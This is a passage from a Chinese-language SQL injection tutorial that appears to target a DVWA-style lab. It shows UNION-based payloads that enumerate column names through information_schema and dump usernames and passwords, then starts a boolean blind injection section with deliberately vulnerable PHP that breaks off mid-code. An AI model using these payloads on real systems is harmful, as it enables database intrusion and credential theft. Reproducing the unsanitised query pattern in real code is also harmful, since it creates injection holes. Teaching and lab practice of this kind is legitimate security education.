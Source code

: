我们知道数据库的字段都存在mysql默认内置库information_schema的columns里，所以我们想要获取当前数据库的字段名字我们可以通过

获取users表里的第一个字段名字 id 

```mysql
-1' union select 1,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 1)-- 
-- 注意这里一定要加上限定 因为你每次查询都是一个字段如果不加会报错
-- Subquery returns more than 1 row
```

获取第二个字段名字 password 

```mysql
-1' union select 1,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 2,1)-- 
```

获取第三个字段名字  email

```mysql
-1' union select 1,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 3,1)-- 
```

获取第四个字段名字 secret

```mysql
-1' union select 1,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 4,1)-- 
```

...............................

### 通过联合查询表里面的内容

​	通过以上操作我们已经获取了当前数据库的库名、表名、字段

那么我们就可以通过下面语句获取表里面的内容了

```mysql
-1' union select 1,(select group_concat(user,0x3a,password) from users limit 1)-- 
```





## boolean布尔型盲注入

### 代码分析

```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    #id为字符串型 get接收id参数
    $id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
```
